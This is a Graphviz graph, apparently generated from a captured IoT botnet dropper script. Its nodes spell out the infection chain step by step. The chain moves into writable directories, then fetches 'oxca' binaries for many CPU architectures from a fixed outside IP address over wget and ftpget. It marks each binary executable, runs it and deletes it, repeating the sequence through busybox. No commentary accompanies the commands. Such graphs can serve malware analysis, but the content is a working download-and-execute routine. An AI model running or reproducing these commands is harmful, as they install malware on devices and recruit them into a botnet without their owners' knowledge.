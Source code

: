 digraph {
2 [label=" cd /tmp"];
2 -> 6;
2 -> 22;
6 [label=" cd /var/run"];
6 -> 10;
6 -> 22;
10 [label=" cd /mnt"];
10 -> 14;
10 -> 22;
14 [label=" cd /root"];
14 -> 18;
14 -> 22;
18 [label=" cd /"];
18 -> 22;
22 [label=" wget http://185.158.112.178/oxca.mips"];
22 -> 26;
26 [label=" chmod +x oxca.mips"];
26 -> 31;
31 [label=" ./oxca.mips"];
31 -> 34;
34 [label=" rm -rf oxca.mips"];
34 -> 39;
39 [label=" cd /tmp"];
39 -> 43;
39 -> 59;
43 [label=" cd /var/run"];
43 -> 47;
43 -> 59;
47 [label=" cd /mnt"];
47 -> 51;
47 -> 59;
51 [label=" cd /root"];
51 -> 55;
51 -> 59;
55 [label=" cd /"];
55 -> 59;
59 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mips oxca.mips"];
59 -> 72;
72 [label=" chmod +x oxca.mips ./oxca.mips"];
72 -> 78;
78 [label=" rm -rf oxca.mips"];
78 -> 83;
83 [label=" /bin/busybox cd /tmp"];
83 -> 88;
83 -> 108;
88 [label=" /bin/busybox cd /var/run"];
88 -> 93;
88 -> 108;
93 [label=" /bin/busybox cd /mnt"];
93 -> 98;
93 -> 108;
98 [label=" /bin/busybox cd /root"];
98 -> 103;
98 -> 108;
103 [label=" /bin/busybox cd /"];
103 -> 108;
108 [label=" /bin/busybox wget http://185.158.112.178/oxca.mips"];
108 -> 113;
113 [label=" /bin/busybox chmod +x oxca.mips"];
113 -> 119;
119 [label=" ./oxca.mips"];
119 -> 122;
122 [label=" /bin/busybox rm -rf oxca.mips"];
122 -> 128;
128 [label=" /bin/busybox cd /tmp"];
128 -> 133;
128 -> 153;
133 [label=" /bin/busybox cd /var/run"];
133 -> 138;
133 -> 153;
138 [label=" /bin/busybox cd /mnt"];
138 -> 143;
138 -> 153;
143 [label=" /bin/busybox cd /root"];
143 -> 148;
143 -> 153;
148 [label=" /bin/busybox cd /"];
148 -> 153;
153 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mips oxca.mips"];
153 -> 167;
167 [label=" /bin/busybox chmod +x oxca.mips ./oxca.mips"];
167 -> 174;
174 [label=" /bin/busybox rm -rf oxca.mips"];
174 -> 180;
180 [label=" cd /tmp"];
180 -> 184;
180 -> 200;
184 [label=" cd /var/run"];
184 -> 188;
184 -> 200;
188 [label=" cd /mnt"];
188 -> 192;
188 -> 200;
192 [label=" cd /root"];
192 -> 196;
192 -> 200;
196 [label=" cd /"];
196 -> 200;
200 [label=" wget http://185.158.112.178/oxca.mpsl"];
200 -> 204;
204 [label=" chmod +x oxca.mpsl"];
204 -> 209;
209 [label=" ./oxca.mpsl"];
209 -> 212;
212 [label=" rm -rf oxca.mpsl"];
212 -> 217;
217 [label=" cd /tmp"];
217 -> 221;
217 -> 237;
221 [label=" cd /var/run"];
221 -> 225;
221 -> 237;
225 [label=" cd /mnt"];
225 -> 229;
225 -> 237;
229 [label=" cd /root"];
229 -> 233;
229 -> 237;
233 [label=" cd /"];
233 -> 237;
237 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mpsl oxca.mpsl"];
237 -> 250;
250 [label=" chmod +x oxca.mpsl ./oxca.mpsl"];
250 -> 256;
256 [label=" rm -rf oxca.mpsl"];
256 -> 261;
261 [label=" /bin/busybox cd /tmp"];
261 -> 266;
261 -> 286;
266 [label=" /bin/busybox cd /var/run"];
266 -> 271;
266 -> 286;
271 [label=" /bin/busybox cd /mnt"];
271 -> 276;
271 -> 286;
276 [label=" /bin/busybox cd /root"];
276 -> 281;
276 -> 286;
281 [label=" /bin/busybox cd /"];
281 -> 286;
286 [label=" /bin/busybox wget http://185.158.112.178/oxca.mpsl"];
286 -> 291;
291 [label=" /bin/busybox chmod +x oxca.mpsl"];
291 -> 297;
297 [label=" ./oxca.mpsl"];
297 -> 300;
300 [label=" /bin/busybox rm -rf oxca.mpsl"];
300 -> 306;
306 [label=" /bin/busybox cd /tmp"];
306 -> 311;
306 -> 331;
311 [label=" /bin/busybox cd /var/run"];
311 -> 316;
311 -> 331;
316 [label=" /bin/busybox cd /mnt"];
316 -> 321;
316 -> 331;
321 [label=" /bin/busybox cd /root"];
321 -> 326;
321 -> 331;
326 [label=" /bin/busybox cd /"];
326 -> 331;
331 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mpsl oxca.mpsl"];
331 -> 345;
345 [label=" /bin/busybox chmod +x oxca.mpsl ./oxca.mpsl"];
345 -> 352;
352 [label=" /bin/busybox rm -rf oxca.mpsl"];
352 -> 358;
358 [label=" cd /tmp"];
358 -> 362;
358 -> 378;
362 [label=" cd /var/run"];
362 -> 366;
362 -> 378;
366 [label=" cd /mnt"];
366 -> 370;
366 -> 378;
370 [label=" cd /root"];
370 -> 374;
370 -> 378;
374 [label=" cd /"];
374 -> 378;
378 [label=" wget http://185.158.112.178/oxca.sh4"];
378 -> 382;
382 [label=" chmod +x oxca.sh4"];
382 -> 387;
387 [label=" ./oxca.sh4"];
387 -> 390;
390 [label=" rm -rf oxca.sh4"];
390 -> 395;
395 [label=" cd /tmp"];
395 -> 399;
395 -> 415;
399 [label=" cd /var/run"];
399 -> 403;
399 -> 415;
403 [label=" cd /mnt"];
403 -> 407;
403 -> 415;
407 [label=" cd /root"];
407 -> 411;
407 -> 415;
411 [label=" cd /"];
411 -> 415;
415 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.sh4 oxca.sh4"];
415 -> 428;
428 [label=" chmod +x oxca.sh4 ./oxca.sh4"];
428 -> 434;
434 [label=" rm -rf oxca.sh4"];
434 -> 439;
439 [label=" /bin/busybox cd /tmp"];
439 -> 444;
439 -> 464;
444 [label=" /bin/busybox cd /var/run"];
444 -> 449;
444 -> 464;
449 [label=" /bin/busybox cd /mnt"];
449 -> 454;
449 -> 464;
454 [label=" /bin/busybox cd /root"];
454 -> 459;
454 -> 464;
459 [label=" /bin/busybox cd /"];
459 -> 464;
464 [label=" /bin/busybox wget http://185.158.112.178/oxca.sh4"];
464 -> 469;
469 [label=" /bin/busybox chmod +x oxca.sh4"];
469 -> 475;
475 [label=" ./oxca.sh4"];
475 -> 478;
478 [label=" /bin/busybox rm -rf oxca.sh4"];
478 -> 484;
484 [label=" /bin/busybox cd /tmp"];
484 -> 489;
484 -> 509;
489 [label=" /bin/busybox cd /var/run"];
489 -> 494;
489 -> 509;
494 [label=" /bin/busybox cd /mnt"];
494 -> 499;
494 -> 509;
499 [label=" /bin/busybox cd /root"];
499 -> 504;
499 -> 509;
504 [label=" /bin/busybox cd /"];
504 -> 509;
509 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.sh4 oxca.sh4"];
509 -> 523;
523 [label=" /bin/busybox chmod +x oxca.sh4 ./oxca.sh4"];
523 -> 530;
530 [label=" /bin/busybox rm -rf oxca.sh4"];
530 -> 536;
536 [label=" cd /tmp"];
536 -> 540;
536 -> 556;
540 [label=" cd /var/run"];
540 -> 544;
540 -> 556;
544 [label=" cd /mnt"];
544 -> 548;
544 -> 556;
548 [label=" cd /root"];
548 -> 552;
548 -> 556;
552 [label=" cd /"];
552 -> 556;
556 [label=" wget http://185.158.112.178/oxca.x86"];
556 -> 560;
560 [label=" chmod +x oxca.x86"];
560 -> 565;
565 [label=" ./oxca.x86"];
565 -> 568;
568 [label=" rm -rf oxca.x86"];
568 -> 573;
573 [label=" cd /tmp"];
573 -> 577;
573 -> 593;
577 [label=" cd /var/run"];
577 -> 581;
577 -> 593;
581 [label=" cd /mnt"];
581 -> 585;
581 -> 593;
585 [label=" cd /root"];
585 -> 589;
585 -> 593;
589 [label=" cd /"];
589 -> 593;
593 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.x86 oxca.x86"];
593 -> 606;
606 [label=" chmod +x oxca.x86 ./oxca.x86"];
606 -> 612;
612 [label=" rm -rf oxca.x86"];
612 -> 617;
617 [label=" /bin/busybox cd /tmp"];
617 -> 622;
617 -> 642;
622 [label=" /bin/busybox cd /var/run"];
622 -> 627;
622 -> 642;
627 [label=" /bin/busybox cd /mnt"];
627 -> 632;
627 -> 642;
632 [label=" /bin/busybox cd /root"];
632 -> 637;
632 -> 642;
637 [label=" /bin/busybox cd /"];
637 -> 642;
642 [label=" /bin/busybox wget http://185.158.112.178/oxca.x86"];
642 -> 647;
647 [label=" /bin/busybox chmod +x oxca.x86"];
647 -> 653;
653 [label=" ./oxca.x86"];
653 -> 656;
656 [label=" /bin/busybox rm -rf oxca.x86"];
656 -> 662;
662 [label=" /bin/busybox cd /tmp"];
662 -> 667;
662 -> 687;
667 [label=" /bin/busybox cd /var/run"];
667 -> 672;
667 -> 687;
672 [label=" /bin/busybox cd /mnt"];
672 -> 677;
672 -> 687;
677 [label=" /bin/busybox cd /root"];
677 -> 682;
677 -> 687;
682 [label=" /bin/busybox cd /"];
682 -> 687;
687 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.x86 oxca.x86"];
687 -> 701;
701 [label=" /bin/busybox chmod +x oxca.x86 ./oxca.x86"];
701 -> 708;
708 [label=" /bin/busybox rm -rf oxca.x86"];
708 -> 714;
714 [label=" cd /tmp"];
714 -> 718;
714 -> 734;
718 [label=" cd /var/run"];
718 -> 722;
718 -> 734;
722 [label=" cd /mnt"];
722 -> 726;
722 -> 734;
726 [label=" cd /root"];
726 -> 730;
726 -> 734;
730 [label=" cd /"];
730 -> 734;
734 [label=" wget http://185.158.112.178/oxca.arm61"];
734 -> 738;
738 [label=" chmod +x oxca.arm61"];
738 -> 743;
743 [label=" ./oxca.arm61"];
743 -> 746;
746 [label=" rm -rf oxca.arm61"];
746 -> 751;
751 [label=" cd /tmp"];
751 -> 755;
751 -> 771;
755 [label=" cd /var/run"];
755 -> 759;
755 -> 771;
759 [label=" cd /mnt"];
759 -> 763;
759 -> 771;
763 [label=" cd /root"];
763 -> 767;
763 -> 771;
767 [label=" cd /"];
767 -> 771;
771 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm61 oxca.arm61"];
771 -> 784;
784 [label=" chmod +x oxca.arm61 ./oxca.arm61"];
784 -> 790;
790 [label=" rm -rf oxca.arm61"];
790 -> 795;
795 [label=" /bin/busybox cd /tmp"];
795 -> 800;
795 -> 820;
800 [label=" /bin/busybox cd /var/run"];
800 -> 805;
800 -> 820;
805 [label=" /bin/busybox cd /mnt"];
805 -> 810;
805 -> 820;
810 [label=" /bin/busybox cd /root"];
810 -> 815;
810 -> 820;
815 [label=" /bin/busybox cd /"];
815 -> 820;
820 [label=" /bin/busybox wget http://185.158.112.178/oxca.arm61"];
820 -> 825;
825 [label=" /bin/busybox chmod +x oxca.arm61"];
825 -> 831;
831 [label=" ./oxca.arm61"];
831 -> 834;
834 [label=" /bin/busybox rm -rf oxca.arm61"];
834 -> 840;
840 [label=" /bin/busybox cd /tmp"];
840 -> 845;
840 -> 865;
845 [label=" /bin/busybox cd /var/run"];
845 -> 850;
845 -> 865;
850 [label=" /bin/busybox cd /mnt"];
850 -> 855;
850 -> 865;
855 [label=" /bin/busybox cd /root"];
855 -> 860;
855 -> 865;
860 [label=" /bin/busybox cd /"];
860 -> 865;
865 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm61 oxca.arm61"];
865 -> 879;
879 [label=" /bin/busybox chmod +x oxca.arm61 ./oxca.arm61"];
879 -> 886;
886 [label=" /bin/busybox rm -rf oxca.arm61"];
886 -> 892;
892 [label=" cd /tmp"];
892 -> 896;
892 -> 912;
896 [label=" cd /var/run"];
896 -> 900;
896 -> 912;
900 [label=" cd /mnt"];
900 -> 904;
900 -> 912;
904 [label=" cd /root"];
904 -> 908;
904 -> 912;
908 [label=" cd /"];
908 -> 912;
912 [label=" wget http://185.158.112.178/oxca.i686"];
912 -> 916;
916 [label=" chmod +x oxca.i686"];
916 -> 921;
921 [label=" ./oxca.i686"];
921 -> 924;
924 [label=" rm -rf oxca.i686"];
924 -> 929;
929 [label=" cd /tmp"];
929 -> 933;
929 -> 949;
933 [label=" cd /var/run"];
933 -> 937;
933 -> 949;
937 [label=" cd /mnt"];
937 -> 941;
937 -> 949;
941 [label=" cd /root"];
941 -> 945;
941 -> 949;
945 [label=" cd /"];
945 -> 949;
949 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i686 oxca.i686"];
949 -> 962;
962 [label=" chmod +x oxca.i686 ./oxca.i686"];
962 -> 968;
968 [label=" rm -rf oxca.i686"];
968 -> 973;
973 [label=" /bin/busybox cd /tmp"];
973 -> 978;
973 -> 998;
978 [label=" /bin/busybox cd /var/run"];
978 -> 983;
978 -> 998;
983 [label=" /bin/busybox cd /mnt"];
983 -> 988;
983 -> 998;
988 [label=" /bin/busybox cd /root"];
988 -> 993;
988 -> 998;
993 [label=" /bin/busybox cd /"];
993 -> 998;
998 [label=" /bin/busybox wget http://185.158.112.178/oxca.i686"];
998 -> 1003;
1003 [label=" /bin/busybox chmod +x oxca.i686"];
1003 -> 1009;
1009 [label=" ./oxca.i686"];
1009 -> 1012;
1012 [label=" /bin/busybox rm -rf oxca.i686"];
1012 -> 1018;
1018 [label=" /bin/busybox cd /tmp"];
1018 -> 1023;
1018 -> 1043;
1023 [label=" /bin/busybox cd /var/run"];
1023 -> 1028;
1023 -> 1043;
1028 [label=" /bin/busybox cd /mnt"];
1028 -> 1033;
1028 -> 1043;
1033 [label=" /bin/busybox cd /root"];
1033 -> 1038;
1033 -> 1043;
1038 [label=" /bin/busybox cd /"];
1038 -> 1043;
1043 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i686 oxca.i686"];
1043 -> 1057;
1057 [label=" /bin/busybox chmod +x oxca.i686 ./oxca.i686"];
1057 -> 1064;
1064 [label=" /bin/busybox rm -rf oxca.i686"];
1064 -> 1070;
1070 [label=" cd /tmp"];
1070 -> 1074;
1070 -> 1090;
1074 [label=" cd /var/run"];
1074 -> 1078;
1074 -> 1090;
1078 [label=" cd /mnt"];
1078 -> 1082;
1078 -> 1090;
1082 [label=" cd /root"];
1082 -> 1086;
1082 -> 1090;
1086 [label=" cd /"];
1086 -> 1090;
1090 [label=" wget http://185.158.112.178/oxca.ppc"];
1090 -> 1094;
1094 [label=" chmod +x oxca.ppc"];
1094 -> 1099;
1099 [label=" ./oxca.ppc"];
1099 -> 1102;
1102 [label=" rm -rf oxca.ppc"];
1102 -> 1107;
1107 [label=" cd /tmp"];
1107 -> 1111;
1107 -> 1127;
1111 [label=" cd /var/run"];
1111 -> 1115;
1111 -> 1127;
1115 [label=" cd /mnt"];
1115 -> 1119;
1115 -> 1127;
1119 [label=" cd /root"];
1119 -> 1123;
1119 -> 1127;
1123 [label=" cd /"];
1123 -> 1127;
1127 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc oxca.ppc"];
1127 -> 1140;
1140 [label=" chmod +x oxca.ppc ./oxca.ppc"];
1140 -> 1146;
1146 [label=" rm -rf oxca.ppc"];
1146 -> 1151;
1151 [label=" /bin/busybox cd /tmp"];
1151 -> 1156;
1151 -> 1176;
1156 [label=" /bin/busybox cd /var/run"];
1156 -> 1161;
1156 -> 1176;
1161 [label=" /bin/busybox cd /mnt"];
1161 -> 1166;
1161 -> 1176;
1166 [label=" /bin/busybox cd /root"];
1166 -> 1171;
1166 -> 1176;
1171 [label=" /bin/busybox cd /"];
1171 -> 1176;
1176 [label=" /bin/busybox wget http://185.158.112.178/oxca.ppc"];
1176 -> 1181;
1181 [label=" /bin/busybox chmod +x oxca.ppc"];
1181 -> 1187;
1187 [label=" ./oxca.ppc"];
1187 -> 1190;
1190 [label=" /bin/busybox rm -rf oxca.ppc"];
1190 -> 1196;
1196 [label=" /bin/busybox cd /tmp"];
1196 -> 1201;
1196 -> 1221;
1201 [label=" /bin/busybox cd /var/run"];
1201 -> 1206;
1201 -> 1221;
1206 [label=" /bin/busybox cd /mnt"];
1206 -> 1211;
1206 -> 1221;
1211 [label=" /bin/busybox cd /root"];
1211 -> 1216;
1211 -> 1221;
1216 [label=" /bin/busybox cd /"];
1216 -> 1221;
1221 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc oxca.ppc"];
1221 -> 1235;
1235 [label=" /bin/busybox chmod +x oxca.ppc ./oxca.ppc"];
1235 -> 1242;
1242 [label=" /bin/busybox rm -rf oxca.ppc"];
1242 -> 1248;
1248 [label=" cd /tmp"];
1248 -> 1252;
1248 -> 1268;
1252 [label=" cd /var/run"];
1252 -> 1256;
1252 -> 1268;
1256 [label=" cd /mnt"];
1256 -> 1260;
1256 -> 1268;
1260 [label=" cd /root"];
1260 -> 1264;
1260 -> 1268;
1264 [label=" cd /"];
1264 -> 1268;
1268 [label=" wget http://185.158.112.178/oxca.i586"];
1268 -> 1272;
1272 [label=" chmod +x oxca.i586"];
1272 -> 1277;
1277 [label=" ./oxca.i586"];
1277 -> 1280;
1280 [label=" rm -rf oxca.i586"];
1280 -> 1285;
1285 [label=" cd /tmp"];
1285 -> 1289;
1285 -> 1305;
1289 [label=" cd /var/run"];
1289 -> 1293;
1289 -> 1305;
1293 [label=" cd /mnt"];
1293 -> 1297;
1293 -> 1305;
1297 [label=" cd /root"];
1297 -> 1301;
1297 -> 1305;
1301 [label=" cd /"];
1301 -> 1305;
1305 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i586 oxca.i586"];
1305 -> 1318;
1318 [label=" chmod +x oxca.i586 ./oxca.i586"];
1318 -> 1324;
1324 [label=" rm -rf oxca.i586"];
1324 -> 1329;
1329 [label=" /bin/busybox cd /tmp"];
1329 -> 1334;
1329 -> 1354;
1334 [label=" /bin/busybox cd /var/run"];
1334 -> 1339;
1334 -> 1354;
1339 [label=" /bin/busybox cd /mnt"];
1339 -> 1344;
1339 -> 1354;
1344 [label=" /bin/busybox cd /root"];
1344 -> 1349;
1344 -> 1354;
1349 [label=" /bin/busybox cd /"];
1349 -> 1354;
1354 [label=" /bin/busybox wget http://185.158.112.178/oxca.i586"];
1354 -> 1359;
1359 [label=" /bin/busybox chmod +x oxca.i586"];
1359 -> 1365;
1365 [label=" ./oxca.i586"];
1365 -> 1368;
1368 [label=" /bin/busybox rm -rf oxca.i586"];
1368 -> 1374;
1374 [label=" /bin/busybox cd /tmp"];
1374 -> 1379;
1374 -> 1399;
1379 [label=" /bin/busybox cd /var/run"];
1379 -> 1384;
1379 -> 1399;
1384 [label=" /bin/busybox cd /mnt"];
1384 -> 1389;
1384 -> 1399;
1389 [label=" /bin/busybox cd /root"];
1389 -> 1394;
1389 -> 1399;
1394 [label=" /bin/busybox cd /"];
1394 -> 1399;
1399 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i586 oxca.i586"];
1399 -> 1413;
1413 [label=" /bin/busybox chmod +x oxca.i586 ./oxca.i586"];
1413 -> 1420;
1420 [label=" /bin/busybox rm -rf oxca.i586"];
1420 -> 1426;
1426 [label=" cd /tmp"];
1426 -> 1430;
1426 -> 1446;
1430 [label=" cd /var/run"];
1430 -> 1434;
1430 -> 1446;
1434 [label=" cd /mnt"];
1434 -> 1438;
1434 -> 1446;
1438 [label=" cd /root"];
1438 -> 1442;
1438 -> 1446;
1442 [label=" cd /"];
1442 -> 1446;
1446 [label=" wget http://185.158.112.178/oxca.m68k"];
1446 -> 1450;
1450 [label=" chmod +x oxca.m68k"];
1450 -> 1455;
1455 [label=" ./oxca.m68k"];
1455 -> 1458;
1458 [label=" rm -rf oxca.m68k"];
1458 -> 1463;
1463 [label=" cd /tmp"];
1463 -> 1467;
1463 -> 1483;
1467 [label=" cd /var/run"];
1467 -> 1471;
1467 -> 1483;
1471 [label=" cd /mnt"];
1471 -> 1475;
1471 -> 1483;
1475 [label=" cd /root"];
1475 -> 1479;
1475 -> 1483;
1479 [label=" cd /"];
1479 -> 1483;
1483 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.m68k oxca.m68k"];
1483 -> 1496;
1496 [label=" chmod +x oxca.m68k ./oxca.m68k"];
1496 -> 1502;
1502 [label=" rm -rf oxca.m68k"];
1502 -> 1507;
1507 [label=" /bin/busybox cd /tmp"];
1507 -> 1512;
1507 -> 1532;
1512 [label=" /bin/busybox cd /var/run"];
1512 -> 1517;
1512 -> 1532;
1517 [label=" /bin/busybox cd /mnt"];
1517 -> 1522;
1517 -> 1532;
1522 [label=" /bin/busybox cd /root"];
1522 -> 1527;
1522 -> 1532;
1527 [label=" /bin/busybox cd /"];
1527 -> 1532;
1532 [label=" /bin/busybox wget http://185.158.112.178/oxca.m68k"];
1532 -> 1537;
1537 [label=" /bin/busybox chmod +x oxca.m68k"];
1537 -> 1543;
1543 [label=" ./oxca.m68k"];
1543 -> 1546;
1546 [label=" /bin/busybox rm -rf oxca.m68k"];
1546 -> 1552;
1552 [label=" /bin/busybox cd /tmp"];
1552 -> 1557;
1552 -> 1577;
1557 [label=" /bin/busybox cd /var/run"];
1557 -> 1562;
1557 -> 1577;
1562 [label=" /bin/busybox cd /mnt"];
1562 -> 1567;
1562 -> 1577;
1567 [label=" /bin/busybox cd /root"];
1567 -> 1572;
1567 -> 1577;
1572 [label=" /bin/busybox cd /"];
1572 -> 1577;
1577 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.m68k oxca.m68k"];
1577 -> 1591;
1591 [label=" /bin/busybox chmod +x oxca.m68k ./oxca.m68k"];
1591 -> 1598;
1598 [label=" /bin/busybox rm -rf oxca.m68k"];
1598 -> 1604;
1604 [label=" cd /tmp"];
1604 -> 1608;
1604 -> 1624;
1608 [label=" cd /var/run"];
1608 -> 1612;
1608 -> 1624;
1612 [label=" cd /mnt"];
1612 -> 1616;
1612 -> 1624;
1616 [label=" cd /root"];
1616 -> 1620;
1616 -> 1624;
1620 [label=" cd /"];
1620 -> 1624;
1624 [label=" wget http://185.158.112.178/oxca.spc"];
1624 -> 1628;
1628 [label=" chmod +x oxca.spc"];
1628 -> 1633;
1633 [label=" ./oxca.spc"];
1633 -> 1636;
1636 [label=" rm -rf oxca.spc"];
1636 -> 1641;
1641 [label=" cd /tmp"];
1641 -> 1645;
1641 -> 1661;
1645 [label=" cd /var/run"];
1645 -> 1649;
1645 -> 1661;
1649 [label=" cd /mnt"];
1649 -> 1653;
1649 -> 1661;
1653 [label=" cd /root"];
1653 -> 1657;
1653 -> 1661;
1657 [label=" cd /"];
1657 -> 1661;
1661 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.spc oxca.spc"];
1661 -> 1674;
1674 [label=" chmod +x oxca.spc ./oxca.spc"];
1674 -> 1680;
1680 [label=" rm -rf oxca.spc"];
1680 -> 1685;
1685 [label=" /bin/busybox cd /tmp"];
1685 -> 1690;
1685 -> 1710;
1690 [label=" /bin/busybox cd /var/run"];
1690 -> 1695;
1690 -> 1710;
1695 [label=" /bin/busybox cd /mnt"];
1695 -> 1700;
1695 -> 1710;
1700 [label=" /bin/busybox cd /root"];
1700 -> 1705;
1700 -> 1710;
1705 [label=" /bin/busybox cd /"];
1705 -> 1710;
1710 [label=" /bin/busybox wget http://185.158.112.178/oxca.spc"];
1710 -> 1715;
1715 [label=" /bin/busybox chmod +x oxca.spc"];
1715 -> 1721;
1721 [label=" ./oxca.spc"];
1721 -> 1724;
1724 [label=" /bin/busybox rm -rf oxca.spc"];
1724 -> 1730;
1730 [label=" /bin/busybox cd /tmp"];
1730 -> 1735;
1730 -> 1755;
1735 [label=" /bin/busybox cd /var/run"];
1735 -> 1740;
1735 -> 1755;
1740 [label=" /bin/busybox cd /mnt"];
1740 -> 1745;
1740 -> 1755;
1745 [label=" /bin/busybox cd /root"];
1745 -> 1750;
1745 -> 1755;
1750 [label=" /bin/busybox cd /"];
1750 -> 1755;
1755 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.spc oxca.spc"];
1755 -> 1769;
1769 [label=" /bin/busybox chmod +x oxca.spc ./oxca.spc"];
1769 -> 1776;
1776 [label=" /bin/busybox rm -rf oxca.spc"];
1776 -> 1782;
1782 [label=" cd /tmp"];
1782 -> 1786;
1782 -> 1802;
1786 [label=" cd /var/run"];
1786 -> 1790;
1786 -> 1802;
1790 [label=" cd /mnt"];
1790 -> 1794;
1790 -> 1802;
1794 [label=" cd /root"];
1794 -> 1798;
1794 -> 1802;
1798 [label=" cd /"];
1798 -> 1802;
1802 [label=" wget http://185.158.112.178/oxca.arm41"];
1802 -> 1806;
1806 [label=" chmod +x oxca.arm41"];
1806 -> 1811;
1811 [label=" ./oxca.arm41"];
1811 -> 1814;
1814 [label=" rm -rf oxca.arm41"];
1814 -> 1819;
1819 [label=" cd /tmp"];
1819 -> 1823;
1819 -> 1839;
1823 [label=" cd /var/run"];
1823 -> 1827;
1823 -> 1839;
1827 [label=" cd /mnt"];
1827 -> 1831;
1827 -> 1839;
1831 [label=" cd /root"];
1831 -> 1835;
1831 -> 1839;
1835 [label=" cd /"];
1835 -> 1839;
1839 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm41 oxca.arm41"];
1839 -> 1852;
1852 [label=" chmod +x oxca.arm41 ./oxca.arm41"];
1852 -> 1858;
1858 [label=" rm -rf oxca.arm41"];
1858 -> 1863;
1863 [label=" /bin/busybox cd /tmp"];
1863 -> 1868;
1863 -> 1888;
1868 [label=" /bin/busybox cd /var/run"];
1868 -> 1873;
1868 -> 1888;
1873 [label=" /bin/busybox cd /mnt"];
1873 -> 1878;
1873 -> 1888;
1878 [label=" /bin/busybox cd /root"];
1878 -> 1883;
1878 -> 1888;
1883 [label=" /bin/busybox cd /"];
1883 -> 1888;
1888 [label=" /bin/busybox wget http://185.158.112.178/oxca.arm41"];
1888 -> 1893;
1893 [label=" /bin/busybox chmod +x oxca.arm41"];
1893 -> 1899;
1899 [label=" ./oxca.arm41"];
1899 -> 1902;
1902 [label=" /bin/busybox rm -rf oxca.arm41"];
1902 -> 1908;
